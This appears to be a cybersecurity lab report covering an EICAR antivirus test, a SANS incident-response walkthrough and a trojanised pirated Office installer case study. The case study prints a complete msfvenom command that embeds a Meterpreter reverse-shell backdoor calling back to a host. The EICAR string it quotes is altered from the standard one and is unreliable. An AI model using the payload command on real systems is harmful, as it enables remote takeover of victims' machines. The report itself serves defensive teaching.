# Threat Detection & Incident Response

---
## 1.Host-Based Threat Detection

### The EICAR Test String:

* **EICAR:** The EICAR string is a standardized, 68-byte ASCII text string used to test antivirus software functionality without using real malware.
  `RUS-TEST-X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIFILE!$H+H*`
  
* **Objective:** To validate the effectiveness of the Windows Defender real-time protection.

* **Action:** Creating a new file [**eicar_av_test.txt**](./folder/eicar_av_test.txt) in the document folder, to trigger the windows defender. **To perform the SANS Incident Response Process.**

* **Result:** Windows Defender successfully detected the file as therat.





## 2.SANS Incident Response

**Objective:** To demonstrate the SANS PICER (Preparation, Identification, Containment, Eradication, Recovery) framework by simulating a malware infection using a standardized EICAR test.

### 2.1.Preparation

* Manually created a text file containing the EICAR test string and saved in the document folder, Windows Defender Real-Time Protection was active and ready to monitor the system.



### 2.2.Identification (Detection & Analysis)

* Windows Defender immediately flagged the file as a "Severe" threat and blocked access to it. Manually confirmed the detection by checking the Protection History. this proved that the automated defense system successfully recognized the malicious signature.

### 2.3.Containment

* Even though the file was created locally, A Network Isolation is performed to simulate a standard response protocol. Manually disabled the network adapter on the Windows VM to "cut off" the machine from the rest of the lab environment and quarantined the malious file.



### 2.4.Eradication

* Used Windows Defender to officially "Remove" the quarantined EICAR file.





### 2.5.Recovery

* Restored the system to a fully operational state by re-enabling the network adapter and restoring internet connectivity. Performed a final "Full Scan" with Windows Defender to confirm that the environment was clean and stable. No further alerts were triggered, indicating that the system was safe for normal use.





### 2.6.Lessons Learned

* This test confirmed that our Endpoint Protection (AV) is working correctly by watching file-write operations. A key lesson is that security isn't just about the "Firewall" it’s about the Antivirus catching threats that are created or moved manually on the disk.

---

## 3. Case Study: Trojan Horse via Pirated Software Distribution

### 3.1.Incident Walkthrough: Backdoor & Persistence

* **Phase 1: Attacker POV (Creation & Hosting)**

A backdoor payload was created using MSFvenom and injected to the cracked Microsoft Office setup installer: `sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.251.3 LPORT=4444 --platform windows -a x64 -x /home/kali/Office.exe -k -f exe -o MS_Office_Free.exe`. It was hosted on free software download website, waiting for the victim to download and run the setup file.



* **Phase 2: User POV (Infection & Persistence)**

Bob, a standard user, wanted a free MS Office and downloaded the file from "pirate" site. He ignored the Windows Defender warnings and ran the installer. But nothing happened. He thought the installer was "broken." In the background, the Trojan established a backdoor that leads the atttacker to set persistence after successfuly receiving a remote connection.



[HTML](./folder/index.html)
 
* **Phase 3: SOC Analyst POV (Detection & Response)**

During a routine sweep of the endpoint using Process Explorer, a suspicious activity is detected. A process was running under explorer.exe that showed significant outbound network traffic. In the TCP/IP tab, a connection is established to a remote IP (192.168.251.3) on port 4444. The file hash is submitted to VirusTotal, which confirmed the file as a Meterpreter Trojan. Escalated to the Incident Response (IR) Team for immediate containment.





* **Phase 4: Incident Response Team (Response & Remediation)**

To prevent the attacker from moving laterally through the network, the IR team immediately suspended the malicious process and isolated the workstation. The malicious process was killed. The IR team identified and deleted a hidden Scheduled Task that was set to re-execute the malware every hour. The source Trojan (MS_Office_Free.exe) was quarantined and deleted. the user's (Bob's) credentials were reset to ensure the attacker could not return using stolen passwords.



### 3.2.Key Lesson

* **Social Engineering as an Entry Vector**

The use of a high-fidelity 2026 phishing page—featuring fake "Verified" badges and "User Feedback"—successfully manipulated the user into manually disabling their own security. User Awareness Training is the primary defense against such deceptive "Pro Tips" that instruct users to ignore security alerts.

* **Defense-in-Depth**

A single layer of security is insufficient. A robust defense strategy must include:

1.Endpoint Detection & Response (EDR): To monitor process behavior in real-time.

2.Network Filtering: To block known malicious ports and unauthorized external IPs.

3.Least Privilege: Ensuring standard users like "Bob" do not have administrative rights to run unauthorized installers or modify system-level persistence.
